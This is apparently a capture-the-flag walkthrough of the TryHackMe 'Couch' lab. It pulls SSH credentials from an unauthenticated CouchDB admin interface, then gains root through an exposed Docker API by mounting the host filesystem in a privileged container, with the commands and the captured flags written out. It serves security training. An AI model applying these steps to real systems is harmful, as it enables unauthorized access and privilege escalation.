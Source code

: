 # Couch

---

![Untitled](Couch_images/Untitled.png)

---

# Enumeration

![Untitled](Couch_images/Untitled%201.png)

![Untitled](Couch_images/Untitled%202.png)

Research about `couchdb` and you will find official document at [https://docs.couchdb.org/en/stable/intro/tour.html](https://docs.couchdb.org/en/stable/intro/tour.html) → Then, there are 2 main paths of **************Fauxton************** (the built-in administration interface - provide full access to CouchDB’s features)

```json
"_utils": Welcome Page
"_all_dbs": List of Databases

```

# Exploit

Navigate to `/_utils`

![Untitled](Couch_images/Untitled%203.png)

Loop through the databases listed in the table → I found the `secret` database contains the credential used for `ssh` connection

![Untitled](Couch_images/Untitled%204.png)

![Untitled](Couch_images/Untitled%205.png)

# Gain Access

`SSH` to the target machine and login with the previous cred

![Untitled](Couch_images/Untitled%206.png)

You will find the `user.txt` file and get the user flag

```tsx
atena@ubuntu:~$ ls -l
total 4
-rw-rw-r-- 1 atena atena 22 Dec 18  2020 user.txt
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```

# Privilege Escalation → root

I had tried `sudo -l` and `cat /etc/crontab` but it was not really helpful

```tsx
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```

```tsx
atena@ubuntu:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

I listed all the files and directories (including hidden) inside the current directory (`/home/atena`) and found the `.bash_history`

```json
atena@ubuntu:~$ ls -la
total 48
drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
-rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
-rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
-rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
drwx------ 2 atena atena 4096 Oct 24  2020 .cache
drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
-rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
-rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
-rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
```

Because the size of the file is not 0 (means empty file) → I used `cat` to read it and found a interested line at the end of file

```tsx
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Use `netstat` to check whether the `docker` service is running

```tsx
atena@ubuntu:~$ netstat -atln
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:5984            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:2375          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:39277         0.0.0.0:*               LISTEN     
tcp        0    316 10.10.166.47:22         10.8.97.213:57486       ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

Yes it is! Use the command which was executed in the `.bash_history` to figure out where would it bring us to

```tsx
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

Surprisingly, I became root user → Find the file which contain the flag and get it

```tsx
/ # find / -name "root.txt"
/mnt/root/root.txt
/mnt/root # cd /mnt/root
/mnt/root # ls -l
total 4
-rw-r--r--    1 root     root            26 Dec 18  2020 root.txt
/mnt/root # cat root.txt
THM{RCE_us1ng_Docker_API}
```